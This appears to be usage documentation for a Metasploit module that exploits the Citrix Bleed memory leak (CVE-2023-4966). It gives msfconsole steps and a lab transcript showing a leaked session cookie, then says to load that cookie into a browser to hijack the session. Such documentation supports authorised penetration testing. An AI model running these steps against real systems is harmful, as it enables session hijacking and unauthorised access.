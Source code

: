 ## Vulnerable Application

This module scans for a vulnerability that allows a remote, unauthenticated attacker to leak memory for a target Citrix
ADC server. The leaked memory is then scanned for session cookies which can be hijacked if found.

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/citrix_bleed_cve_2023_4966`
4. Do: `set RHOSTS`
5. Do: `run`

## Options

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### Citrix ADC 13.1-48.47

NetScaler VPX instance for VMware ESX from `NSVPX-ESX-13.1-48.47_nc_64`.

```
msf auxiliary(scanner/http/citrix_bleed_cve_2023_4966) > show options 

Module options (auxiliary/scanner/http/citrix_bleed_cve_2023_4966):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.150  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   THREADS    20               yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(scanner/http/citrix_bleed_cve_2023_4966) > run

[+] Cookie: NSC_AAAC=fdac8de9ed76012688b4d33e9d5f74b00c3a0818745525d5f4f58455e445a4a42 Username: metasploit
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/citrix_bleed_cve_2023_4966) >
```

Once the cookie has been leaked, load it into the browser using the developer tools.
